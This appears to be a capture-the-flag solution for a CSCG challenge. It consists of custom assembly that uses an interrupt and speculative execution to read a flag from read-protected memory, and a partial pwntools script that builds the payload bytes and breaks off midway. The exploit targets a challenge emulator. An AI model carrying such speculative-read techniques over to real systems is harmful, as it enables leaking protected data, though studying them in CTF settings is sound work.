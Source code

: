 ```asm
mov r0, :A
IOread

; r0 will be different after the interrupt
jmp r0

:A
mov r1, [0x300000] ; read flag from read-protected memory

; make sure the flag gets written to disk
mov [0x400000], r1
mov [0x400100], r1
mov [0x400200], r1
mov [0x400300], r1
mov [0x400400], r1

; we will execute 8 instructions speculatively
NOP
NOP
NOP

:B
mov r1, [0x400000] ; load flag from memory

; IOwrite prints r0
mov r0, r1
IOwrite
```

```python
from pwn import *
import struct
import time

def pule(arg):
    """ Pack unsigned 32 bit little endian"""
    return struct.pack("<I", arg)

def uule(arg):
    """ Unpack unsigned 32 bit little endian"""
    return struct.unpack("<I", arg)[0]

flag_offset = 0
pc = 0x100000
flag = 0x300000 + flag_offset
heap = 0x400000

payload = b""

label_a = pc + 0x8

# mov r0, :A
payload += b"m" + pule(label_a)

# IOread
payload += b"#i"

# jmp r0
payload += b"j"

# :A
# load flag
payload += b"L" + pule(flag)

```

[CSCG]: https://cscg.de/